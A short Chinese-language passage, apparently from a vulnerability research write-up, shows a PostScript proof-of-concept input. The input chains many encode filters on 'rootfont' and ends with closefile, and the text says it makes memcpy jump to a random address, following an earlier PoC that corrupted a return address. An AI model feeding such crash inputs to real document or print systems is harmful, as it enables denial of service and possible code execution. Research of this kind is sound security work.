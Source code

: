 [![](assets/1706771701-9c304426037b0f676a816cc7200f125d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202405-4b687928-bea1-1.png)

可以发现他造成了函数返回地址指向了一个无效的地址。

另一个poc注入如下：

```plain
() (1337leet) /FlateEncode filter /ASCII85Encode filter dup /TBCPEncode filter rootfont /CCITTFaxEncode filter rootfont /zlibEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /CCITTFaxEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /CCITTFaxEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCII85Encode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /PSStringEncode filter /SHA256Encode filter closefile
```

这个poc导致了memcpy到运行到一个随机的地址
